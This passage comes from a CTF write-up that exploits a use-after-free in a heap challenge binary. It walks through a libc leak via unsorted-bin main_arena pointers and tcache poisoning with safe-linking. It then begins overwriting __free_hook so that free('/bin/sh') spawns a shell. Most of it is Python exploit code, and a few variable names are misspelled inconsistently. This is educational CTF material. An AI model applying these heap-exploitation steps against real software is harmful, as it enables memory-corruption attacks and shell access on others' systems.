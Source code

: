 Now, we have a heap only because `description->name` is freed but not nullyfied,

## Stage 2: Leak a libc pointer
This the trickiest part (for me), and that's where i failed during the CTF.

First, allocate and free two bounties into unsorted bin like this: 
```
    add_bounty(20, b"abcd", b"a" * 0x450)
    add_bounty(20, b"abcd", b"b" * 0x450)
    free_bounty() # and let the other used to avoid coaleasing
  
```

On freeing the chunk, it goes into the unsorted bin because it's large enough to not fit into tcache or fastbin.\
When a chunk `C` is in unsortd bin: `C[0]` and `C[1]` are plain pointers the a global variable in libc called `main_arena`.\
So to get that address, we need to calculate the offset between:\
1) the heap base and the address of this freed chunk; more exactly, between the heap base and the chunk address + 1, because main_arena address starts with `\x00` and this can not be printed (e.g. `0x00007ffff7fbfc00`).\
2) the heap base and the address of the first bounty in the bounty array.\
In my case, the offset in 1) is `0x360 + 1` and 2) is `0x2a0`

Now, the strategy is to overwrite `bounties[0]->name` with the address of the heap where `main_arena` addresses are stored i.e in the free unsorted bin chunk.\

```
    array_bounty_1 = heap_addr + 0x2a0
    main_arena_addr = heap_addr + 0x360

    add_bounty(20, b"abcd", b"a" * 0x40) # A
    add_bounty(20, b"abcd", b"b" * 0x40) # B
    free_bounty() # free B
    free_bounty() # free A

    resp = edit_bounty_s1(-256) # UAF 
    mangled_fd_1 = int(resp.split(b" ")[11])
    edit_bounty_s2(mangked_fd_1, p64(array_bounty_1 ^ (heap_addr >> 12)) + b"a"*0x38) # UAF

    add_bounty(20, b"abcd", b"a" * 0x40) # Get a sound description pointer
    add_bounty(20, b"abcd", b"b" * 0x28 + p64(main_arena_addr) + b"b" * 0x10) # Get a description pointer to array_bounty_1.

    leaks = show_bounties() # Meaning, leak `main_arena` address
    libc.address = int.from_bytes(b"\x00" + leaks.split(b"\n")[1].split(b" ")[1], "little") - 0x1e3c00
    
```

And, we have a libc leak.

## Stage 3: Overwrite __free_hook and Trigger a free('/bin/sh')
Always using the UAF strategy on tcache:
```
    add_bounty(20, b"abcd", b"a" * 0x60) # A
    add_bounty(20, b"abcd", b"b" * 0x60) # B

    free_bounty() # free B
    free_bounty() # free A

    resp =  edit_bounty_s1(-254)
    mangked_fd_1 = int(resp.split(b" ")[11])
```